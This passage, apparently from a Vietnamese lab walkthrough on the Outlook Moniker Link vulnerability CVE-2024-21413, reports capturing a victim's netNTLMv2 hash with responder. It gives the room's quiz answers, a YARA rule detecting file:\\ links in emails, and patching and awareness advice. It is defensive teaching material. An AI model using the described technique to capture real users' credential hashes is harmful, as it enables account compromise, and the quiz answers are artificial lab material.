Thành công! Hash netNTLMv2 của nạn nhân đã được thu thập trên AttackBox của chúng ta.

**Trả lời các câu hỏi bên dưới**

* **Tên ứng dụng** mà chúng ta dùng trên AttackBox để thu thập hash của người dùng: 

`responder` 

* **Loại hash** được thu thập khi nhấp vào siêu liên kết trong email: 

`netNTLMv2` 

---


# Task 4: Detection

**Phát hiện**

**YARA**

Một quy tắc [Yara](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar) đã được [Florian Roth](https://x.com/cyb3rops/status/1758792873254744344) tạo ra để phát hiện các email chứa thành phần `file:\\` trong Moniker Link.

```bash
user@yourmachine:# cat cve-2024-21413.yar 


rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {

   meta:

      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"

      author = "X__Junior, Florian Roth"

      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"

      date = "2024-02-17"

      modified = "2024-02-19"

      score = 75

   strings:

      $a1 = "Subject: "

      $a2 = "Received: "


      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:

      filesize < 1000KB

      and all of ($a*)

      and 1 of ($xr*)

}
```

**Wireshark**

Ngoài ra, yêu cầu SMB từ nạn nhân đến máy khách có thể được nhìn thấy trong bản ghi gói tin với một hash netNTLMv2 đã bị rút gọn.


---

# Task 5: Remediation

**Khắc phục**

Microsoft đã phát hành các bản vá để khắc phục lỗ hổng này trong bản phát hành “patch Tuesday” tháng 2. Bạn có thể xem danh sách các bài viết KB theo phiên bản Office [tại đây](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413). Việc cập nhật Office thông qua Windows Update hoặc [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/Home.aspx) được khuyến nghị mạnh mẽ.

Ngoài ra, trong thời gian chờ, đây là lúc nhắc nhở người dùng thực hành các biện pháp an toàn an ninh mạng chung. Ví dụ, nhắc nhở người dùng:

* Không nhấp vào các liên kết ngẫu nhiên (đặc biệt là từ các email không mong muốn)
* Xem trước liên kết trước khi nhấp
* Chuyển tiếp các email đáng ngờ đến bộ phận chịu


